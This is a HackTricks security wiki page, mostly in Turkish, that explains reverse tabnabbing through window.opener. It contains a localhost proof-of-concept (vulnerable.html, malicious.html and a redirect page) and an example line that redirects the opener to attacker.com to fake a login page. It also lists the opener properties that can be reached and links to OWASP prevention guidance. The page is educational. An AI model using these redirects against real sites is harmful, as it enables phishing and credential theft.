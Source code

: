 {% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


# Açıklama

Bir **saldırganın**, bir mağdur tarafından tıklanacak olan **`<a`** etiketinin **`href`** argümanını **kontrol edebildiği** bir durumda, **saldırgan** bu **bağlantıyı** kontrolü altındaki bir web sitesine (bir **kötü niyetli** **web sitesi**) yönlendirebilir. Daha sonra, **mağdur bağlantıya tıkladığında** ve saldırganın web sitesine eriştiğinde, bu **kötü niyetli** **web sitesi**, javascript nesnesi **`window.opener`** aracılığıyla **orijinal** **sayfayı** **kontrol edebilir**.\
Eğer sayfa **`rel="opener"`** içermiyorsa ama **`target="_blank"`** içeriyorsa ve **`rel="noopener"`** içermiyorsa, bu da savunmasız olabilir.

Bu davranışı kötüye kullanmanın yaygın bir yolu, **orijinal webin konumunu** `window.opener.location = https://attacker.com/victim.html` ile saldırganın kontrolündeki ve **orijinaline benzeyen** bir web sitesine değiştirmektir, böylece **orijinal web sitesinin** **giriş** **formunu** **taklit edebilir** ve kullanıcıdan kimlik bilgilerini isteyebilir.

Ancak, **saldırgan artık orijinal web sitesinin pencere nesnesini kontrol edebildiğinden**, bunu başka şekillerde kötüye kullanabilir ve **gizli saldırılar** gerçekleştirebilir (belki javascript olaylarını değiştirerek kendisine ait bir sunucuya bilgi sızdırmak?).

# Genel Bakış

## Geri bağlantı ile

Önleme özelliği kullanılmadığında ana ve alt sayfalar arasındaki bağlantı:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Geri bağlantı olmadan

Önleme özelliği kullanıldığında ana ve alt sayfalar arasındaki bağlantı:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Örnekler <a href="#examples" id="examples"></a>

Aşağıdaki sayfaları bir klasörde oluşturun ve `python3 -m http.server` ile bir web sunucusu çalıştırın.\
Sonra, **erişim sağlayın** `http://127.0.0.1:8000/`vulnerable.html, **bağlantıya tıklayın** ve **orijinal** **web sitesinin** **URL'sinin** **nasıl değiştiğini** not edin.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Erişilebilir özellikler <a href="#accessible-properties" id="accessible-properties"></a>

**Farklı kökenler** arasında bir erişim gerçekleştiğinde (farklı alanlar arasında erişim), kötü niyetli bir sitenin erişebileceği **opener** JavaScript nesne referansı ile belirtilen **window** JavaScript sınıf örneğinin özellikleri aşağıdaki ile sınırlıdır:

- **`opener.closed`**: Bu özellik, bir pencerenin kapatılıp kapatılmadığını belirlemek için erişilir ve bir boolean değeri döner.
- **`opener.frames`**: Bu özellik, mevcut penceredeki tüm iframe öğelerine erişim sağlar.
- **`opener.length`**: Mevcut pencerede bulunan iframe öğelerinin sayısını döner.
- **`opener.opener`**: Bu özellik aracılığıyla mevcut pencereyi açan pencerenin referansı elde edilebilir.
- **`opener.parent`**: Bu özellik, mevcut pencerenin üst pencere referansını döner.
- **`opener.self`**: Bu özellik, mevcut pencereye erişim sağlar.
- **`opener.top`**: Bu özellik, en üstteki tarayıcı penceresini döner.

Ancak, alanlar aynı olduğunda, kötü niyetli site, [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript nesne referansı tarafından açığa çıkarılan tüm özelliklere erişim kazanır.

# Önleme

Önleme bilgileri [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) belgesinde belgelenmiştir.

## Referanslar

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
